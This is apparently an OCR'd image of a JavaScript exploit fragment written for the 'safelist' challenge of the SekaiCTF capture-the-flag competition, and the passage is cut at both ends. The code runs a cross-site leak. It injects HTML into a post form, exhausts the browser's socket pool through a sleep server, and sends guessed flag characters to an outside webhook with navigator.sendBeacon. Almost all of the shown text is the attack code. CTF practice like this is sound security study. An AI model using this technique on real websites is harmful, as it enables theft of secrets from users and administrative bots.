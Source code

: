 ```html
        let payload = JSON.stringify({ known, alphabet, data });
        console.log(id, payload);
        navigator.sendBeacon(WEBHOOK + "?" + id, payload); 
    }
    
    // Similar to JQuery
    const $ = document.querySelector.bind(document);
    
    // Known part of the flag
    const known = "SEKAI{";
    let alphabet = "_abcdefghijklmnopqrstuvwxyz}";
    
    // Reduce the alphabet using a hash (#) in the URL
    if (location.hash) {
        alphabet = alphabet.slice(alphabet.indexOf(location.hash.slice(1)));
    }
    
    // Funtion to leak chars
    const leak = async (c) => {
        // Prepare post with known flag and the new char
        let payload = `${known + c}`;
        // Inject as many <img as possible
        // you need to respect the CSP and create URLs that are different
        for(let i = 0; payload.length < 2048; i++) {
            payload += `<img src=js/purify.js?${i.toString(36)}>`;
        }
        
        // Inject HTML
        $("#create input[type=text]").value = payload;
        $("#create").submit();
        await new Promise(r => setTimeout(r, 1000));
        
        // Remove post with index 0
        $("#remove").submit();
        await new Promise(r => setTimeout(r, 500));
        
        let deltas = [];
        
        // Try each char 3 times
        for (let i = 0; i < 3; i++) {
            const SOCKET_LIMIT = 255;
            // you will need a custom server that works like num.sleepserver.com/sleep/delay
            // needed to freeze the blocked sockets, and they have to all be on different origins
            // Check https://www.npmjs.com/package/sleep-server using subdomains DNS wildcard
            const SLEEP_SERVER = i => `http://${i}.sleepserver.com/sleep/60`; 

            const block = async (i, controller) => {
                try {
                    return fetch(SLEEP_SERVER(i), { mode: "no-cors", signal: controller.signal });
                }
                catch(err) {}
            };

            // block SOCKET_LIMIT sockets
            const controller = new AbortController();
            for (let i = 0; i < SOCKET_LIMIT; i++) {
                block(i, controller);
            }
            
            // Make the bot access the page with the posts
            window.open("https://safelist.ctf.sekai.team/?" + Math.random().toString(36).slice(2), "pwn");
            await new Promise(r => setTimeout(r, 500));
```
